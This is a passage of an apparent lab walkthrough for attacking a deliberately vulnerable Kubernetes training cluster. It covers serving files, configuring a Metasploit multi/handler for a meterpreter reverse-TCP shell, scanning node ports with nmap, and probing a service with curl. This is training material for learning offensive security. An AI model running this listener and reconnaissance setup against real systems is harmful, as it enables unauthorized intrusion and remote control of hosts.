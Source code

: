 8. Set up a web server to listen on tcp/9000.

    ```shell
    python3 -m http.server 9000
    ```

9. Start a new terminal tab by hitting `Ctrl-Shift-t`.

    ```
    Hit Ctrl-Shift-t
    ```

10. Let's start up a Metasploit console and run a multi/handler that matches the same IP address. Start by creating an RC file for this:

    ```shell
    cat <<END >multi-handler.rc
    use exploit/multi/handler
    set PAYLOAD linux/x64/meterpreter/reverse_tcp
    set LHOST 10.23.58.30
    set ExitOnSession false
    exploit -j
    END
    ```

11. Now run msfconsole, telling it to start by running those commands.

    ```shell
    msfconsole -r multi-handler.rc
    ```

12. Start a new terminal tab by hitting `Ctrl-Shift-t`.

    ```
    Hit Ctrl-Shift-t
    ```

13. Run a TCP port scan of the first node's TCP ports that are reserved for node ports.  

    ```shell
    nmap -Pn -sT -p30000-32767 bustakube-node-1
    ```

14. Interact with the service that's running on TCP port 30080:

    ```shell
    curl http://bustakube-node-1:30080/
    ```

15. Observe that you get a mysterious answer.  Here's the output on our test system:

    ```
    / is not a valid resource.
    ```

16. Try putting a random useful word on the end of that URL, using -v to see error codes:

    ```shell
    curl -v http://bustakube-node-1:30080/admin
    ```
